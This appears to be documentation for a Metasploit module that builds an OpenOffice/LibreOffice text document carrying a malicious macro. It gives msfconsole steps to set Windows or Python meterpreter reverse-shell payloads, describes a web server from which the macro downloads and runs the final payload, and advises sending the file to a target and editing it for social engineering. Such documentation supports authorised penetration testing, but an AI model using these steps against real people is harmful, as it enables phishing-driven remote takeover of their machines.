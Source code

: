 ## Description

This module generates an Apache OpenOffice Text Document with a malicious macro in it. It also
works against LibreOffice.

For exploit successfully, the targeted user must adjust the security level in Macro Security to
either Medium or Low. If set to Medium, a prompt is presented to the user to enable or disable the
macro. If set to Low, the macro can automatically run without any warning.

## Vulnerable Application

* Apache OpenOffice
* LibreOffice

## Verification Steps

To use this exploit, you must know the platform of the targeted user. The module supports either
Windows, Linux, and OSX. If the target is using Windows, then the exploit will generate the macro
with malicious Powershell code inside. For other supported platforms, the exploit will generate
Python code.

An example of using this module against Windows:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 0```
4. ```set payload windows/meterpreter/reverse_tcp```
5. ```exploit```

An example of using this module against Linux or OSX:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 1```
4. ```set payload python/meterpreter/reverse_tcp```
5. ```exploit```

Once started, the module will mainly do these things:

1. It will start a payload handler.
2. It will start a web server. This is used for the macro to download and execute our final payload.
3. The malicious odt file. Send this to your targeted user.

## Options

**BODY**

This option can be used to insert text to the malicious document.

## Modification

Since social engineering will play a big part in the success of the attack, you will most likely
want to modify the odt file.

1. To do so, first use msfconsole to generate the malicious odt file.
2. Move the odt file to a system that has OpenOffice or LibreOffice
3. You can just use OpenOffice/LibreOffice to edit the file. Make sure you don't modify the macro
   code unless you actually know what you're doing.

